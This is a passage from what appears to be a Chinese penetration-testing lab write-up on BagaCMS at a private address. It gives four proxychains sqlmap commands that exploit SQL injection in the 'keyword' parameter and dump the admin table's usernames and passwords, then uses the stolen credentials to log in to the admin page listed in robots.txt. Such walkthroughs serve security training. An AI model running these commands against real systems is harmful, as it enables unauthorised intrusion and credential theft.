 使用 BagaCMS，可以查找相关的漏洞，但是源码中有提示存在 SQL 注入

手工可验证，这里 Sqlmap 梭哈

```bash
proxychains4 sqlmap -u "http://192.168.1.132/index.php?r=vul&keyword=1" -p keyword --dbs --random-agent -keep-alive
proxychains4 sqlmap -u "http://192.168.1.132/index.php?r=vul&keyword=1" -p keyword -D bagecms --tables --random-agent -keep-alive
proxychains4 sqlmap -u "http://192.168.1.132/index.php?r=vul&keyword=1" -p keyword -D bagecms -T bage_admin --columns --random-agent -keep-alive
proxychains4 sqlmap -u "http://192.168.1.132/index.php?r=vul&keyword=1" -p keyword -D bagecms -T bage_admin -C username,password --dump --random-agent -keep-alive
```

[![](assets/1705981930-be54f57609f556ceaf32a0e41b992ecc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143526-433e0306-b827-1.png)

得到了后台账户和密码，进行登录，后台地址在 robots.txt 中有

[![](assets/1705981930-3c70dc718ff0112041720f4877aea5cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143540-4bb68fda-b827-1.png)
